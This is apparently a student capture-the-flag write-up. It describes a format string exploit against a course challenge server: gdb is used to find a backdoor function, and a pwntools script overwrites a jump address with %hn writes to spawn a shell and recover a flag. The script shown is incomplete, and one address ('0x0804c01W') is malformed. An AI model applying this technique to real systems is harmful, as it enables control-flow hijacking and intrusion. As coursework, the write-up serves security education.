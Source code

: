 Firstly we opened the server and we saw this:

![Screenshot from 2023-06-04 16-24-50](https://github.com/DCC-FCUP-SP/sp2223-t02g10/assets/92749121/e15de423-3a82-4a01-bdd4-ae11bda34784)

Then we tested it to see if it was sensible to format string vulnerabilities:

![Screenshot from 2023-06-04 16-25-56](https://github.com/DCC-FCUP-SP/sp2223-t02g10/assets/92749121/4ec3d394-1fec-4a85-8417-c25496d745f5)

Turns out it was, so the next step was to use gbd on the program and checkthe fucntions it had with the 'info functions' command:

![Screenshot from 2023-06-04 14-30-59](https://github.com/DCC-FCUP-SP/sp2223-t02g10/assets/92749121/d79e9c9d-16be-4898-9d00-2842c71f1e89)

The function that caught out attention right away was the old_backdoor function so we analyzed it with 'disas' and this came up:

![Screenshot from 2023-06-04 14-31-53](https://github.com/DCC-FCUP-SP/sp2223-t02g10/assets/92749121/86b6ae94-07f4-484a-8784-89fc1e3d6041)

It contained a system call that would open up a shell so in order to run that function we redirected the flow of the program to that address by using gdb to find instructions where the code would jump to other addresses. 
We found a jump to the following address: 0x0804c01W
We needed to build an exploit that would re-write the old_backdoor function to that address using format vulnerabilities:
```
from pwn import *

LOCAL = False

if LOCAL:
    pause()
else:
    p = remote("ctf-sp.dcc.fc.up.pt", 4007)

#0x08049236  old_backdoor

N = 60
content = bytearray(0x0 for i in range(N))

content[0:4]  =  (0xaaaabbbb).to_bytes(4, byteorder='little')
content[4:8]  =  (0x0804c012).to_bytes(4, byteorder='little')
content[8:12]  =  ("????").encode('latin-1')
content[12:16]  =  (0x0804c010).to_bytes(4, byteorder='little')

s = "%.2036x" + "%hn" + "%.35378x%hn"

fmt  = (s).encode('latin-1')
content[16:16+len(fmt)] = fmt

p.recvuntil(b"here...")
```
we ran the script and we got this:

![Screenshot from 2023-06-04 15-37-13](https://github.com/DCC-FCUP-SP/sp2223-t02g10/assets/92749121/594aee2c-ebab-451b-b793-837e4491c47e)

flag{0057833d01590ca2c8ffaef49a17f054}

